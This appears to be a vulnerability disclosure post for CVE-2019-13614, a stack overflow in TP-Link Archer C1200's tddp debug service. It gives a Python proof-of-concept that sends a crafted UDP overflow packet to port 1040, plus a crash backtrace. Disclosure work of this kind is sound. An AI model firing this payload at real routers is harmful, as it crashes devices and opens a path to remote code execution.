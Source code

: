 ```yaml
---
layout: post
title: "[CVE-2019-13614] tddp CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
excerpt: "A debug protocol overflow."
modified: 2019-07-15
categories: proof-of-concept
tags: ["tp-link"]
comments: true
---
```


# Overview
CMD_SET_CONFIG_COUNTRY in the TP-Link Device Debug protocol in TP-Link Archer C1200 1.0.0 Build 20180502 rel.45702 and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

# Proof-of-Concept
{% highlight python %}
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 48 + "BBBBCCCCDDDD"

port_send = 1040

tddp_ver = "01"
tddp_command = "a2"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
{% endhighlight %}

# Crash Analysis
{% highlight bash %}
#0  0xff725778 in feof () from /lib/libc.so.0
#1  0x0000d56c in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
{% endhighlight %}
